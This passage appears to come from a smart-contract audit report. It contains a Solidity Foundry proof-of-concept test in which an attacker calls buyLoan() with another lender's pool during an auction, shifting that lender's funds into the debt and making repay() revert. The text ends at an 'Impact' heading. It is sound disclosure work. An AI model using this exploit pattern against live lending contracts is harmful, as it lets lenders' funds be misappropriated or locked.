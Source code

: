 ```solidity
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100*10**18,
            poolBalance: 1000*10**18,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        lender.setPool(lender2Pool);
        //
        // 3. Lender1 kicks off the auction.
        //
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;
        vm.prank(lender1);
        lender.startAuction(loanIds);
        // warp to middle of auction
        vm.warp(block.timestamp + 12 hours);
        //
        // 4. The malicious actor (address(1337)) call the buyLoan() function using Lender2's pool.
        //
        bytes32 poolIdLender2 = lender.getPoolId(lender2, address(loanToken), address(collateralToken));
        vm.startPrank(attacker);
        lender.buyLoan(0, poolIdLender2);
        //
        // 5. The Lender1 pool has the loaned amount + interests.
        //
        // assert lender1 pool balance is 1000 + interests
        (,,,,poolBalance,,,,) = lender.pools(poolIdLender1);
        assertGt(poolBalance, 1000 * 10**18); // 1000 + interests (assertGt)
        //
        // 6. Lender2 pool has the debt. 1000 initial pool balance - 100 debt tokens - borrow interests
        //
        (,,,,poolBalance,,,,) = lender.pools(poolIdLender2);
        assertLt(poolBalance, (1000 - 100) * 10**18); // poolBalance < (1000 - 100 - borrow interests)
        //
        // 7. The loan lender is assigned to the attacker non-existent pool which means that
        //    the repay() function will be reverted by arithmeticError.
        //
        vm.expectRevert(stdError.arithmeticError);
        lender.repay(loanIds);
    }
```

## Impact
